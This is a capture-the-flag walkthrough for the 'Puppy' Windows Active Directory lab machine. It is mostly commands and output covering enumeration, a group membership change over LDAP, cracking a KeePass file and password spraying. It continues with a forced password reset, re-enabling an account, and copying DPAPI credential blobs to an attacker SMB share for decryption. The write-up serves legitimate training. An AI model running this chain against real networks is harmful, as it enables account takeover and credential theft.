

# Puppy

Difficulty: Medium
OS: Windows
Category: Offensive


You will start this challenge with the following credentials: levi.james / KingofAkron2025!

### Reconnaissance

```bash
Port 53 Domain Simple DNS Plus
Port 88 kerberos-sec
Port 111 rpcbind?
Port 135 msrpc
Port 139 netbios-ssn
Port 389 ldap
Port 445 microsoft-ds?
Port 464 kpasswd5?
Port 593 ncacn_http
Port 636 tcpwrapped
Port 2049 mountd
Port 3260 iscsi?
Port 3268 ldap
Port 3269 tcpwrapped
Port 5985 MS HTTPAPI httpd
```

Enumerate users with **crackmapexec** or **netexec**

```bash
crackmapexec smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --users
```

This will give you all the users, put them in a file.

Then add the domains in `/etc/hosts`

```bash
vim /etc/hosts

10.10.11.70 PUPPY.HTB DC.PUPPY.HTB
```

Perform some bloodhound enumeration with the user *levi.* I added DNS timeout so that it won’t disconnect directly.

```bash
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All --zip -ns 10.10.11.70 --dns-timeout 30
```

### Bloodhound Enumeration



Upload the result to bloodhound, search for `levi` in the search bar, and click on it. Mark this user as **owned** then do a broad look from the user by right clicking its icon and click `Shortest Path To Here` .

Apparently this will just leave us confused. So what we’ll do is narrow down our search to know what our approach would be.

Click on **levi’s** icon, then on the **Node Info.** Look on the following: **Group Memberships, Local Admin Rights, Execution Rights, Outbound Object Control.**

**GROUP MEMBERSHIPS**: Check which groups `levi.james` is a member of. Groups can grant privileges, such as access to specific computers or administrative rights.

**LOCAL ADMIN RIGHTS**: Check if `levi.james` has `AdminTo` edges to any computers. This indicates local administrator privileges on those machines.

**EXECUTION RIGHTS**: Look for edges like `ExecuteDCOM` or `AllowedToDelegate` to computers. These indicate the ability to execute commands or delegate credentials to specific systems.

**OUTBOUND OBJECT CONTROL**: Focus on edges like `GenericAll`, `GenericWrite`, `WriteDacl`, `WriteOwner`, or `ForceChangePassword` to other users, groups, or computers. These indicate control over AD objects.

### Shares

If you enumerate the shares for `levi.james` you will see there’s a `DEV` folder. This belongs to users who are part of the `DEVELOPERS@PUPPY.HTB` . Upon our enumeration, we can see that `levi.james` can add himself as a member for `DEVELOPERS@PUPPY.HTB` , through `HR@PUPPY.HTB` since levi is a member of HR group.


### User Foothold

We will add levi to the developer group. Make an ldif file `modify.ldif` 

```bash
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

Use `ldapmodify` tool

```bash
ldapmodify -x -H ldap://10.10.11.70 -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f modify.ldif
```

Now that levi is added, let’s explore the `DEV` share

```bash
smbclient //10.10.11.70/DEV -U "levi.james%KingofAkron2025!"
```

Then we’ll get `recovery.kdbx`

```bash
get recovery.kdbx
```

For us to crack this, we need a tool from the public `John The Ripper` tool does not support this method yet. We will install `keepassxs` also in order to open what’s inside.

```bash
sudo apt install keepassxc

git clone https://github.com/r3nt0n/keepass4brute

./keepass4brute/keepass4brute.sh recovery.kdbx rockyou.txt
# This will give the password 'liverpool'

keepassxc-cli export --format=xml recovery.kdbx > keepass_dump.xml
```

Then inspect the `keepass_dump.xml` for any juicy info. Fast forward… we find this credentials.

```bash
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

These passwords are associated by the existing users that we found earlier already. But we can also verify this with `nxc` or `crackmapexec` to see if any of these users are active.

```bash
crackmapexec smb 10.10.11.70 -u users.txt -p pass.txt
```

We will find a user `ant.edwards:Antman2025!` we’ll do another bloodhound enumeration with this user.

```bash
bloodhound-python -dc DC.PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' -d PUPPY.HTB -c All --zip --dns-timeout 30 -ns 10.10.11.70
```


We find out that `ANT.EDWARDS@PUPPY.HTB` can force change password for the user `ADAM.SILVER@PUPPY.HTB` because of the `GenericAll` privilege.

```bash
rpcclient -U 'puppy.htb\Ant.Edwards%Antman2025!' 10.10.11.70
rpcclient $> setuserinfo ADAM.SILVER 23 Password@123!
```

Let’s check if this account is enabled

```bash
nxc smb 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@123!'
<SNIP>
PUPPY.HTB\ADAM.SILVER:Password@987 STATUS_ACCOUNT_DISABLED
```

Since the account is disabled, let’s enable this using `bloodyAD` tool

```bash
bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
```

Do an `evil-winrm` to the user with the account `ADAM.SILVER`

```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p Password@123!
```

Then get the flag that’s sitting in Desktop directory.

### Root

Checking for files at `C:\Backup` we found a zip file named `site-backup-2024-12-30.zip`. Download it and unzip. After unzipping you will find a hidden xml file in it, then inspect it.

You will see the following snippet for credentials.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
```

Let’s login with the following credential

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p ChefSteph2025!
```

Upload a `winPEAS` in the target to recon for privilege escalation methods. We find that there are interesting output in `DPAPI`

```powershell
=========|| Checking for DPAPI RPC Master Keys
Use the Mimikatz 'dpapi::masterkey' module with appropriate arguments (/rpc) to decrypt
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
found: C:\Users\steph.cooper\AppData\Roaming\Microsoft\\Protect\
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\CREDHIST
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\SYNCHIST

=========|| Checking for DPAPI Cred Master Keys
Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi

    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

    Directory: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   8:14 AM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D
```

Let’s make a shared folder and setup an smbserver to get files. Upon inspecting the directory these things are hidden. So you need to do the following command in order to get them.

```powershell
Get-ChildItem -Force
```

```bash
mkdir -p share
impacket-smbserver share ./share -smb2support
```

Now copy the files from the target to your smb server.

```bash
copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" "\\<vpn ip>\share\masterkey_blob"

copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\CredentialsC8D69EBE9A43E9DEBF6B5FBD48B521B9" "\\<vpn ip>\share\credential_blob"
```

Then we’ll decrypt the key

```bash
impacket-dpapi masterkey -f masterkey_blob -password ChefSteph2025! -sid S-1-5-21-1487982659-1829050783-2281216199-1107

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

We’ll decrypt the blob-file

```bash
impacket-dpapi credential -f credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

With this password, we can login to the target

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```

You can also do `impacket-secretsdump` to get the NTLMv2 hash but this will suffice.

After logging in, get the flag in Desktop folder.